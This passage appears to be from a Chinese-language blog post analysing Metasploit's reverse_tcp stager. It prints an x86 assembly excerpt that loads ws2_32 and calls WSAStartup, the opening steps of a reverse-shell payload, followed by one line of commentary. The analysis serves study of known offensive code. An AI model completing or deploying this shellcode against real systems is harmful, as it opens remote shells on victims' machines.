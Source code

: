![image.png](assets/1698893687-30a1696bbe85000c859c521570ab2c53.png)

```js
reverse_tcp: push '32' ; Push the bytes 'ws2_32',0,0 onto the stack. 
    push 'ws2_' ; ... 
    push esp ; Push a pointer to the "ws2_32" string on the stack. 
    push #{Rex::Text.block_api_hash('kernel32.dll', 'LoadLibraryA')} 
    mov eax, ebp 
    call eax ; 
    LoadLibraryA( "ws2_32" ) 
    mov eax, 0x0190 ; EAX = sizeof( struct WSAData ) 
    sub esp, eax ; alloc some space for the WSAData structure 
    push esp ; push a pointer to this stuct 
    push eax ; push the wVersionRequested parameter 
    push #{Rex::Text.block_api\_hash('ws2_32.dll', 'WSAStartup')} 
    call ebp ; WSAStartup( 0x0190, &WSAData );
```

先看一下 reverse\_tcp 的汇编，首先 push 了几个参数。

